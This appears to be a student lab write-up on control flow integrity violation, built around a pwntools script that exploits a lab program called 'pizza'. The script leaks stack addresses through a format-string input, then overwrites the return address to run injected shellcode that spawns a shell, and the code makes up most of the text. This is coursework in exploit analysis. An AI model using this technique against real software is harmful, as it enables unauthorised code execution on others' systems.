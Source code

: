 # Control Flow Integrity Violation

## Summary of the assignment
Before we started this assignment we had to do some preliminary tasks to get started...

* Install pwntools.
* Download the victim program "pizza".
* Attempt to run and crash the program successfully or get the "segmentation fault".
* Open the victim program and analyze it in Ghidra.

Then we can start to write a Python transcript from the sample in order to crash the code and analyze the core dump.

## Script and Explanation

### Python Script
```python
#!/usr/bin/env python3
from pwn import *

# Stack Printing
def stackPrint(core, num = 20):
    rsp = core.rsp
    print("Stack")
    x = num // 2
    addresses = []
    # calculation and storing of the first half of the memory addresses
    for i in range(x, 0, -1):
        tmp = rsp + 8 * i
        addresses.append(tmp)

    # Print first half of the stack
    for addr in addresses:
        print(f"{addr:x}\t{core.read(addr, 8)}")

    # Print Stack Pointer
    print(f"{rsp:x}\t{core.read(rsp, 8)} <<<<< RSP")

    # Print second half of the stack
    for i in range(x - 1, 0, -1):
        tmp = rsp - 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

shellcode = asm(shellcraft.amd64.linux.sh())

victim = process("./pizza")

input1 = b"%p %p %p %p %p %p %p %p %p"

print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)

var = str(victim.recvline(), "latin-1")
print(var)

# Subtract offset to the start of shellcode
addr = int(var.split(" ")[7], 16) - 112

input2 = shellcode + b"T"*88 + addr.to_bytes(8, 'little')
var = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

victim.sendline(input2)

# Print the stack
stackPrint(victim, num=20)

victim.interactive()

victim.wait()

exit()

```

### Explanation and Screenshots
In order to crash the victim program we had to...
